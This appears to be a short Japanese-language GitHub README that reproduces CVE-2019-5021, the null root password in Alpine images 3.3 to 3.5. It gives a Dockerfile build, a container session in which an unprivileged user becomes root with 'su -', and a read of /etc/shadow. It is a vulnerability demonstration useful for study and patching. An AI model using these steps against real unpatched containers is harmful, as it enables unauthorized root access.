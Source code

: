 # cve-2019-5021
alpineイメージ (v3.3 - v3.5) のrootパスワードがnullだった脆弱性。
デフォルトの`/bin/su`はbusyboxへのシンボリックリンクでsuidされていない。`shadow`パッケージをインストールすると`/bin/su`もsuidされるため、以下のようにこの脆弱性の影響を確認することができる。

まず`Dockerfile`からイメージをbuildする。
```
$ docker build -t cve-2019-5021:1 .
Sending build context to Docker daemon  3.072kB
Step 1/2 : FROM alpine:3.5
 ---> f80194ae2e0c
Step 2/2 : RUN apk update && apk add shadow
 ---> Running in 0bd5a51ac649
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/main/x86_64/APKINDEX.tar.gz
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/community/x86_64/APKINDEX.tar.gz
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/main]
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/community]
OK: 7963 distinct packages available
(1/2) Installing linux-pam (1.2.1-r0)
(2/2) Installing shadow (4.2.1-r8)
Executing busybox-1.25.1-r2.trigger
OK: 6 MiB in 13 packages
Removing intermediate container 0bd5a51ac649
 ---> b2ac47c6d945
Successfully built b2ac47c6d945
Successfully tagged cve-2019-5021:1
```

uid:65534(nobody)を指定してbuildしたイメージからコンテナを起動する。
`su -`コマンドでrootのパスワードを聞かれずにrootになれる。
```
$ docker container run --user 65534:65534 -it cve-2019-5021:1
~ $ id
uid=65534(nobody) gid=65534(nobody)
~ $ su -
c40b869c5be7:~# id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
c40b869c5be7:~# 
```

`/etc/shadow`を見てみると確かにrootのパスワードが設定されていない。
```
c40b869c5be7:~# grep root /etc/shadow
root:::0:::::

```
